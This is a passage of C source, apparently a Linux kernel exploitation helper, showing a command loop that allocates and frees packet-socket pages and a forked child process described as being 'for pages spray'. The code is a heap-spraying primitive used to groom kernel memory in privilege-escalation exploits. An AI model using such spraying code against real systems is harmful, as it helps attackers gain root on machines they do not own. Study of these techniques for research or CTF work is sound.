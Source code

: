 ```c
            ret = alloc_socket_pages(socket_fd[req.idx], req.size, req.nr);
            if (ret < 0) {
                perror(ERROR_MSG("[x] Failed to alloc packet socket pages"));
                break;
            }

            break;
        case PGV_CMD_FREE_PAGE:
            if (socket_fd[req.idx] == 0) {
                printf(ERROR_MSG("[x] No socket fd for idx: ") "%d\n",req.idx);
                ret = -EINVAL;
                break;
            }

            ret = free_socket_pages(socket_fd[req.idx]);
            if (ret < 0) {
                perror(ERROR_MSG("[x] Failed to free packet socket pages"));
                break;
            }

            break;
        case PGV_CMD_FREE_SOCKET:
            if (socket_fd[req.idx] == 0) {
                printf(ERROR_MSG("[x] No socket fd for idx: ") "%d\n",req.idx);
                ret = -EINVAL;
                break;
            }

            close(socket_fd[req.idx]);

            break;
        case PGV_CMD_EXIT:
            log_info("[*] PGV child exiting...");
            ret = 0;
            break;
        default:
            printf(
                ERROR_MSG("[x] PGV child got unknown command : ")"%d\n",
                req.cmd
            );
            ret = -EINVAL;
            break;
        }

        write(cmd_pipe_reply[1], &ret, sizeof(ret));
    } while (req.cmd != PGV_CMD_EXIT);
}

void prepare_pgv_system(void)
{
    /* pipe for pgv */
    pipe(cmd_pipe_req);
    pipe(cmd_pipe_reply);
    
    /* child process for pages spray */
    if (!fork()) {
        spray_cmd_handler();
    }
}

int create_pgv_socket(int idx)
{
    struct pgv_page_request req = {
```